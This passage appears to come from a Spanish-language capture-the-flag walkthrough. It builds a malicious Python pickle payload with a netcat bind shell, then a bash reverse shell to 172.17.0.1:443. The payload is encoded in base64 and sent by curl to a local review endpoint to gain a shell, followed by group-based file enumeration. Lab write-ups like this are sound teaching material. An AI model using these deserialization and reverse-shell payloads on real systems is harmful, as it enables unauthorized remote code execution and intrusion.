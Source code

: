 ```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```

solo que haremos unas modificaciones para que funcione bien:

```css
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("/bin/bash -c '/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1'",))
print(base64.b64encode(pickle.dumps(P())).decode('utf-8'))
```

Luego de ejecutarlo, nos dará el siguiente string en base64:

```css
gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDsvYmluL2Jhc2ggLWMgJy9iaW4vYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxJ5SFlFKULg==
```

escuchamos por el puerto 443 con netcat:

```css
sudo nc -nlvp 443
```

y enviamos los datos para recibir una shell:

```css
curl -X POST http://127.0.0.1:5555/submit_review -F "product_name = hacked" -F "review_text = hacked" -F "rating = 1" -F "mydata= gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDsvYmluL2Jhc2ggLWMgJy9iaW4vYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxJ5SFlFKULg=="
```

una vez lo enviemos, habremos escalado al usuario **christine**.

### Christine

Si ejecutamos `id` veremos que estamos en el grupo ftp, por lo que procederemos a buscar archivos pertenecientes a ese grupo:

```css
find / -group "ftp" 2>/dev/null
```

```css
christine@ae4f7906fed7:~$ find / -group "ftp" 2>/dev/null
/ftp
christine@ae4f7906fed7:~$
```

solo vemos un directorio.

Al entrar en `/ftp` podremos ver un binario llamado "bufferbot", pero no podemos ejecutarlo, ya que intenta abrir un puerto pero parece que ya está en uso, por lo que lo pasaremos a nuestra máquina para analizarlo.
